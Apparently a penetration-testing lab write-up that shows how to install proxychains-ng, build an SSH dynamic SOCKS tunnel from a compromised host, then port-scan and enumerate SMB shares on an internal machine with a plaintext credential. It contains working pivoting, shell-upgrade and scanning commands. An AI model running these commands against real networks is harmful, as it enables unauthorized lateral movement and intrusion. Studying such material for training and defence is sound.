 ProxyChains is a UNIX program, that hooks network-related libc functions in DYNAMICALLY LINKED programs via a preloaded DLL (dlsym(), LD_PRELOAD) and redirects the connections through SOCKS4a/5 or HTTP proxies. It supports TCP only (no UDP/ICMP etc).

```bash
git clone https://github.com/rofl0r/proxychains-ng
cd proxychains-ng

# Install
./configure --prefix=/usr --sysconfdir=/etc
Done, now run make && make install

sudo make install
./tools/install.sh -D -m 644 libproxychains4.so /usr/lib/libproxychains4.so
./tools/install.sh -D -m 755 proxychains4 /usr/bin/proxychains4
./tools/install.sh -D -m 755 proxychains4-daemon /usr/bin/proxychains4-daemon
                                            
sudo make install-config 
./tools/install.sh -D -m 644 src/proxychains.conf /etc/proxychains.conf

# Configure tcp timeouts
sudo sed -i 's/tcp_read_time_out .*/tcp_read_time_out 1000/g' /etc/proxychains.conf
sudo sed -i 's/tcp_connect_time_out .*/tcp_connect_time_out 1000/g' /etc/proxychains.conf
```

Victim

* -D dynamic local port forwarding
* Use proxychains to attack multiple ports

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -D 0.0.0.0:9999 database_admin@10.4.175.215 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```

Attacker

* Configure `/etc/proxychains.conf` to app server port

```bash
# Open /etc/proxychains.conf
proxychains -f /etc/proxychains.conf

# Configure proxy chain socks5 192.168.175.63 9999
sudo sed -i 's/socks .*/socks5 192.168.175.63 9999/g' /etc/proxychains.conf

# Port sweeping and scanning
proxychains bash -c 'for i in $(seq 1 1024); do nc -zv -w 1 172.16.175.217 $i; done;'

sudo proxychains nmap -sT -p4870-4874 -Pn 172.16.175.217
[proxychains] config file found: /etc/proxychains.conf

# SMB Attack
proxychains smbclient -p 445 -L //s172.16.175.217/ -U hr_admin --password=Welcome1234

# Other
proxychains ./ssh_dynamic_client_aarch64 --ip-addr 172.16.175.217 --port 4872
```
